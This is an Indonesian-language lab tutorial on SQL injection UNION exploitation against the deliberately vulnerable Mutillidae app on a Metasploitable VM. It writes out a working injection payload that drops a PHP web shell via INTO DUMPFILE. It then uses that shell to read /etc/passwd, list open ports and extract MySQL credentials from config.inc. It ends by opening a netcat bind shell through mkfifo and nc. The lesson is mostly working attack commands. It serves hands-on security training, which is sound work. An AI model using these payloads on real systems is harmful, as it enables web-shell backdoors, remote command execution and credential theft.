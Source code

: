 ## Lesson 10 - SQL Injection Union Exploit \#3

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.
Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti user apache, mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Masukan command linux pada textbox tersebut `ls | grep ".inc`. Hal ini dilakukan untuk mencari file berekstensi `.inc` di directory Mutillidae, yang disasar adalah username dan password database mysql.

Terlihat terdapat file `config.inc`, file ini diduga berisi konfigurasi database mysql.

* **Step 2** : Masukan command linux pada textbox tersebut `cat config.inc | grep -v "<?php"`. Hal ini dilakukan untuk melihat file sebab jika kita tidak gunakan `grep` web tidak akan mencetak nya karena file berisi script php

Terlihat host, username, password, dan nama database dari MySQL yang digunakan web Mutillidae

### \# Menggunakan Backdoor untuk pengamatan Netcat

* **Step 1** : Masukan command linux pada textbox tersebut `which nc; netstat -nao | grep 4444 | wc -l`.
**which nc** : melihat dimana netcat berada
**netstat -nao | grep 4444 | wc -l** : melihat jumlah semua koneksi ke port 4444

* **Step 2** : Masukan command linux pada textbox tersebut `mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`.
**mkfifo** : proses dapat saling berkomunikasi dilakukan melalui pipes. Pipes dapat dibuat dengan mengunakan perintah ini
**nc -l 4444** : meminta netcat untuk listen & allow connections di port 4444

Terlihat koneksi terus berputar hal ini manandakan port 444 sedang listen atau menunggu adanya koneksi/transfer data

* **Step 3** : Sebari langkah 2 berjalan, masukan command linux pada terminal Kali Linux `nc 10.151.36.64 4444`. Kemudian masukan command cli yang anda inginkan.












